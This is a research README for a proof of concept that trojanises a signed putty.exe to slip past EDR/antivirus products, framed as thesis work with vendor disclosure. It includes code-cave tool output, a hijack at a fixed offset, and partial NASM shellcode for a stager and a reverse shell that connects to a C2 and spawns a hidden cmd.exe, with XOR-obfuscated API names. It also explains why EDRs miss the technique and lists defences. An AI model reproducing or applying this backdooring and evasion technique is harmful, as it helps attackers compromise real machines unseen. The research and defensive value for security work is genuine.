




# PoC – USERLAND any EDR/AV Bypass, Code Cave Injection & Two-Stage Shellcode via PE x64 Section Manipulation

[-> Version Française <-](README-FR.md)

**EDR bypass** by two-stage injection into the `.text` / `.reloc` sections of a signed binary (Putty 0.78 x64), without creating a new section, without a hooked IAT, without an RWX region on disk.


**Target binary**: `putty.exe` — official Putty 0.78 Win64  
**Victim OS**: Windows 10 22H2 / Windows 11 23H2 (kernel32.dll offset validated on these builds)  
**Validated against**: A substantial number of market EDRs  
**Failed against**: CrowdStrike (SHA256 not matching Putty; the technique itself is not flagged)

---

## Explanation and disclaimer

This PoC was developed as part of a research thesis on PE forensics methods.

I reported this issue to some major vendors in May 2025 (ignored) and to ANSSI/CERT in mid-June 2026; it has now been 90 days and, with their authorization, I am publishing my work.

**No attack tools or shellcode will be provided inside this PoC.**


## Principle

The PoC exploits the differential in the PE format's `SectionAlignment` to create an executable code cave in `.text` without touching the other sections. A Stage 1 shellcode (~490 bytes) is injected there; at runtime it sets `.reloc` permissions back to R-X via `VirtualProtect`, then jumps to a full reverse shell (~800 bytes) hosted in `.reloc`. Note that the Stage 2 shellcode is left to the attacker's imagination.

Entry is done by hijacking the execution flow at offset `0x55D4` of Putty (a post-user-authentication pivot point), with full CPU context restoration before returning to the normal flow.

**The exploit runs with the permissions with which the user (or other) launched the infected PE**



---

## Execution flow

```
putty.exe starts normally
        ↓
User clicks "Open" → hijack offset 0x55D4 → JMP code cave (.text)
        ↓
Stage 1 : resolve VirtualProtect via RSI (GetProcAddress already in register)
          → VirtualProtect(.reloc, R-- → R-X)
          → JMP offset 0x19B000 (.reloc)
        ↓
Stage 2 : dynamic resolution of ws2_32 → WSAStartup → WSASocketA → connect → CreateProcessA(cmd.exe)
        ↓
Restoration : copy of the original instruction (LEA RCX, [RDI+0x84])
               → return to offset 0x55DB, normal Putty execution
```
---

## Demonstration

Bypass Microsoft Endpoint


<video src="img/demo.mp4" controls width="600"></video>
---

## PE modification

### Discovering the alignment code cave in `.text`

```python
python code_caver.py -f putty.exe
[+] Minimum code cave size: 300
[+] Padding bytes: 0x00 (NUL), 0xCC (INT3)
[+] Image Base:  0x00400000
[+] Loading "putty.exe"...

[!] ASLR is enabled. Virtual Address (VA) could be different once loaded in memory.

[+] Looking for code caves...
[+] Code cave found in .text 	Size: 442 bytes <------ Natural code cave with exec perm
    Start RA: 0x000ED646  Start VA: 0x004EE246
    End RA:   0x000ED7FF  End VA:   0x004EE3FF
    Fill: 0xCC (INT3)  Perm: R-X  Suitability: GOOD (RX)

[+] Code cave found in .00cfg 	Size: 459 bytes
    Start RA: 0x00138635  Start VA: 0x0053F035
    End RA:   0x001387FF  End VA:   0x0053F1FF
    Fill: 0x00 (NUL)  Perm: R--  Suitability: UNSUITABLE

[+] Code cave found in .tls 	Size: 512 bytes
    Start RA: 0x0013B400  Start VA: 0x00543000
    End RA:   0x0013B5FF  End VA:   0x005431FF
    Fill: 0x00 (NUL)  Perm: RW-  Suitability: POSSIBLE (RW)

[+] Code cave found in .rsrc 	Size: 3677 bytes
    Start RA: 0x00141F5B  Start VA: 0x0054B75B
    End RA:   0x00142DB7  End VA:   0x0054C5B7
    Fill: 0x00 (NUL)  Perm: R--  Suitability: UNSUITABLE

[+] Code cave found in .rsrc 	Size: 3987 bytes
    Start RA: 0x00142E27  Start VA: 0x0054C627
    End RA:   0x00143DB9  End VA:   0x0054D5B9
    Fill: 0x00 (NUL)  Perm: R--  Suitability: UNSUITABLE

[+] Code cave found in .rsrc 	Size: 4027 bytes
    Start RA: 0x00143EC0  Start VA: 0x0054D6C0
    End RA:   0x00144E7A  End VA:   0x0054E67A
    Fill: 0x00 (NUL)  Perm: R--  Suitability: UNSUITABLE

[+] Found 1 suitable caves for code execution
```


### Extending the `.reloc` code cave

```python
# CodeCaveExtenderAdvanced.py
C:\Users\ratus\Desktop\Decompile\script>python CodeCaveExtenderAdvanced.py putty.exe putty_demonstration.exe --section .reloc 800 --expand

File Alignment: 0x200
Section Alignment: 0x1000

Modifying .reloc section:
Original Virtual Size: 0x000021B8
Original Virtual Address: 0x001A2008
Original Size of Raw Data: 0x00002200
Added 1024 bytes of padding to raw data
New Virtual Size: 0x000024D8
New Virtual Address: 0x001A2000
New Size of Raw Data: 0x00002600
Code cave details:
Start RVA: 0x001A41B8
End RVA: 0x001A44D8
Size: 0x320 bytes
Modified PE file saved to: putty_demonstration.exe
Operation completed successfully!
```

The script only modifies the size of `.reloc` in the PE header. No new section is created.

### `.reloc` injection

`.reloc` is a static relocation section, rarely executed on 64-bit binaries (ASLR relocations are handled at load time by the loader). It is large (~several KB available), its permissions are R-- on disk: Stage 2 is not executable until Stage 1's `VirtualProtect` call at runtime.

### Flow hijack

Offset `0x55D4`: `CALL [rbx+something]` instruction in the "Open connection" procedure. Replaced by a `JMP rel32` to the start of the Stage 1 code cave. The original instruction is copied and re-executed after the payload (clean restoration).

---

## Stage 1 — `.text` shellcode (~490 bytes)

**Goal**: change `.reloc` permissions and hand off to Stage 2.

**Critical constraint**: fit in the available code cave after `.text` extension (≈490 bytes). No room for a full PEB/LDR resolution.

**Solution**: at the hijack point `0x55D4`, the `RSI` register already contains the address of `GetProcAddress` in Putty's execution context. This context is reused directly — only `VirtualProtect` is resolved. Thanks to that, the shellcode size in bytes can be drastically reduced; in this context every byte is worth its weight in peanuts.


```
[BITS 64]
section .data
    ; String "VirtualProtect" XORed with 0x41
    virtualprotect db 0x17, 0x28, 0x33, 0x35, 0x34, 0x20, 0x2D, 0x11, 0x33, 0x2E, 0x35, 0x24, 0x22, 0x35, 0x41
section .text
global start
start:
    push rax
    push rcx
    push rdx
    push rbp
    push rsi
    push rdi
    push r8
    push r9
    push r10
    push r11
    push r12
    push r13
    push r14
    push r15
    mov rbx, rsp
    
    ; GetProcAddress is in RSI
    mov rax, rsi
    mov r15, rsi        ; Save GetProcAddress in R15
    sub rax, 0x1B200    ; kernel32 base
    mov r12, rax        ; Save kernel32 base in R12
    mov r14, r13;R13 natively contains the base
    add r14, 0x19B000; Add the .data offset
    ; RESERVE ALL REQUIRED SPACE AT THE START
    sub rsp, 64
    mov r10, 0x41       ; XOR key
    ; Save the target address for the decoded string
    lea rbp, [rsp+40]   ; Save the address in RBP
    ; Decode VirtualProtect
    lea rsi, [rel virtualprotect]
    mov rdi, rbp        ; Use the saved address
    mov rcx, 15         ; Length of "VirtualProtect\0"

decode_virtualprotect:
    --- [Shellcode cut] ---

db 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
```
### Execution after the stage 1 shellcode          


---

## Stage 2 — `.reloc` reverse shell (~800 bytes)

It is left to the attacker's imagination, but still while respecting EDR constraints (no whoami if we are in a reverse shell, and we do not encrypt the EDR ransomblock .docx tripwires etc.); thanks to this method size is no longer a problem since we extend a section that does not move anyway, even inserting 10MB of shellcode is no issue.

**Goal**: outbound TCP connection to the C2, launch `cmd.exe` with I/O redirected onto the socket.

**Sequence**:

1. XOR 0x41 decryption of sensitive strings into temporary stack buffers
2. `LoadLibraryA("ws2_32.dll")`
3. `WSAStartup(0x0202)`
4. `WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0)`
5. `connect(sock, &sockaddr_C2, 16)` — IP/port hardcoded little-endian encoded
6. `STARTUPINFO.hStdInput/Output/Error = sock`
7. `CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi)`

**Obfuscated strings (XOR 0x41)**: `ws2_32.dll`, `WSAStartup`, `WSASocketA`, `connect`, `cmd.exe` — none in plaintext in the binary, decoded into volatile stack buffers.


```
[BITS 64]

section .data
    ; Strings XORed with 0x41
    loadlibrary db 0x0d, 0x2e, 0x20, 0x25, 0x0d, 0x28, 0x23, 0x33, 0x20, 0x33, 0x38, 0x00, 0x41  ; "LoadLibraryA" XOR 0x41
    ws32       db 0x36, 0x32, 0x73, 0x1e, 0x72, 0x73, 0x6f, 0x25, 0x2d, 0x2d, 0x41  ; "ws2_32.dll" XOR 0x41
    wsastartup  db 0x16, 0x12, 0x00, 0x12, 0x35, 0x20, 0x33, 0x35, 0x34, 0x31, 0x41  ; "WSAStartup" XOR 0x41
    
    ; Strings for reverse shell - to be added as needed
    --- [Shellcode cut] ---
	
	
	createproc db 0x02, 0x33, 0x24, 0x20, 0x35, 0x24, 0x11, 0x33, 0x2e, 0x22, 0x24, 0x32, 0x32, 0x00, 0x41; "CreateProcessA" XOR 0x41
    cmdexe     db 0x22, 0x2c, 0x25, 0x6f, 0x24, 0x39, 0x24, 0x41                                    ; "cmd.exe" XOR 0x41
	
	waitforsingleobject db 0x16, 0x20, 0x28, 0x35, 0x07, 0x2e, 0x33, 0x12, 0x28, 0x2f, 0x26, 0x2d, 0x24, 0x0e, 0x23, 0x2b, 0x24, 0x22, 0x35, 0x41  ; "WaitForSingleObject" XOR 0x41
	
section .text
global start

start:    
    ; GetProcAddress is in RSI
    mov rax, r15

    --- [Shellcode cut] ---

        ; Call CreateProcessA with the right arguments
    xor rcx, rcx                ; lpApplicationName = NULL
    mov rdx, r14                ; lpCommandLine = "cmd.exe"
    xor r8, r8                  ; lpProcessAttributes = NULL
    xor r9, r9                  ; lpThreadAttributes = NULL
    mov qword [rsp+32], 1       ; bInheritHandles = TRUE (5th arg)
    mov qword [rsp+40], 0x08000000       ; dwCreationFlags = 0 (6th arg) 0x08000000 = NO_WINDOWS
    mov qword [rsp+48], 0       ; lpEnvironment = NULL (7th arg)
    mov qword [rsp+56], 0       ; lpCurrentDirectory = NULL (8th arg)
    lea rax, [rsp+80]           ; STARTUPINFO (fixed offset)
    mov qword [rsp+64], rax     ; lpStartupInfo (9th arg)
    lea rax, [rsp+32]           ; PROCESS_INFORMATION (fixed offset)
    mov qword [rsp+72], rax     ; lpProcessInformation (10th arg)
	
    call r12                    ; Call CreateProcessA
    
	mov rsp, rbx 

	
	pop r15
	pop r14
	pop r13
	pop r12
	pop r11
	pop r10
	pop r9
	pop r8
	pop rdi
	pop rsi
	pop rbp
	pop rdx
	pop rcx
	pop rax

	
	db 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
    db 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x90
	


; Subroutine to decode XORed strings
decode_string:
    ; RCX = length, RSI = source, RDI = destination, R10 = XOR key
decode_loop:
	mov r10, 0x41               ; XOR key
    mov al, byte [rsi]
    xor al, r10b
    mov byte [rdi], al
    inc rsi
    inc rdi
    dec rcx
    jnz decode_loop
    ret
```

---

## Why it gets past EDRs

| Blind spot | Exploited mechanism |
|---|---|
| No per-section hash analysis | EDRs validate the PE's global hash, not section by section |
| `VirtualProtect` physically cannot be monitored. | `VirtualProtect` is a primitive building block; almost every program calls it |
| `.reloc` treated as passive data | No tested EDR monitors execution from `.reloc` |
| Trivial XOR not deobfuscated | Static signatures look for plaintext strings |
| No ETW correlation | `VirtualProtect` + `CreateProcess` + outbound TCP connection not causally correlated in < 50 ms |

---

## Results

I successfully bypassed all tested EDRs (about 5); to date, I was able to test in depth (console access + rich telemetry) or Bypass with Blocking Policy + SOC behind it

Not bypassed?

- CrowdStrike flagged me, but that only revealed my modified putty (SHA256 broken by shellcode insertion) and not the technique itself. I admit I have not tested with a less well-known piece of software.


**Known limitations**: the offsets (`0x55D4`, `0x19B000`, kernel32 offset `0x1B200`) are specific to the exact Putty 0.78 Win64 build and to the tested Windows versions. Any build change invalidates the offsets. The code cave size in the `.text` section is not fixed from one PE to another.

---

## Tools developed

| Script | Role |
|---|---|
| `CodeCaveExtenderAdvanced.py` | Extending the `.reloc` code cave (`SizeOfRawData` modification) |
| `offsetcalculator.py` | Computing relative JMP offsets (RVA → file RAW offset) |
| `iptohexa.py` | IP:Port conversion to little-endian for the Stage 2 shellcode |
| `AsciitoBIN.py` | XOR 0x41 string obfuscation, NASM assembler output |

**Dependencies**:
- NASM  — shellcode compilation
- x64dbg — debug and offset validation
- PE-Bear — PE structure analysis + jump injection at RAW offset
- Python 3.x + `pefile` — PE manipulation scripts

---

## Defensive recommendations

1. **Sectional hash at load time** — validate the integrity of each PE section individually, not only the global hash
2. **Contextual `VirtualProtect` detection** — alert if the target section is `.reloc` or `.rdata` without a reason legitimate to the context
3. **Entropy analysis and emulation** — detect XOR decoding loops before execution

---

## Scope

PoC developed as part of the Mastère Cybersécurité & Cloud IPSSI 2025–2026 as well as my apprenticeship at SOTERIA-LAB, initially supervised by Mr. Pierre V, in an isolated and/or controlled environment.

**Author**: Louis G.

**Supervision**: Pierre V. (SOTERIA-LAB)

---


## Personal note

* **Accessibility of the technique:** A *code cave* of about 400 bytes is not that hard to identify in modern PEs. Although this PoC is specific to `putty.exe`, the underlying principle appears reproducible on nearly all Windows x64 binaries.
* **Monitoring of `VirtualProtect`:** Each PE has its own sections and specificities. Moreover, `VirtualProtect` remains a fundamental system API whose contextual monitoring is complex because of its very high volume of legitimate calls across the OS.
* **Performance/Detection trade-off:** This approach highlights the permanent trade-off EDRs face between the depth of heuristic analysis and the impact on host machine performance. The lack of detection here shows that *userland* instrumentation of `VirtualProtect`, combined with execution from a passive section such as `.reloc`, remains an effective evasion vector. This mechanism is often silenced by vendors to avoid false positives on legitimate applications. In practice, continuous and exhaustive behavioral analysis of every process turns out to be too heavy for standard architectures, leaving room for more targeted detections (static signatures, post-execution telemetry of suspicious commands such as `whoami`, etc.).
* **Research methodology:** Having developed this approach independently with the support of AI tools, some implementation methods may depart from conventional standards, but they empirically validate the concept.
* **Evolution prospects and testing limits:** For lack of access to a complete lab environment gathering a set of management consoles and market EDR solutions, several hypotheses could only be validated by deduction. Having such an environment would make it possible to deepen this research axis at a dual level, notably to address more complex problems:
* *Does injecting or hijacking a legitimate DLL to host Stage 2 significantly alter behavioral telemetry?*
* *Does loading and locating an external resource in RAM (for example, the pixels of a PNG file) in order to execute a Stage 2 there after altering permissions via `VirtualProtect` allow static entropy analysis to be bypassed?*
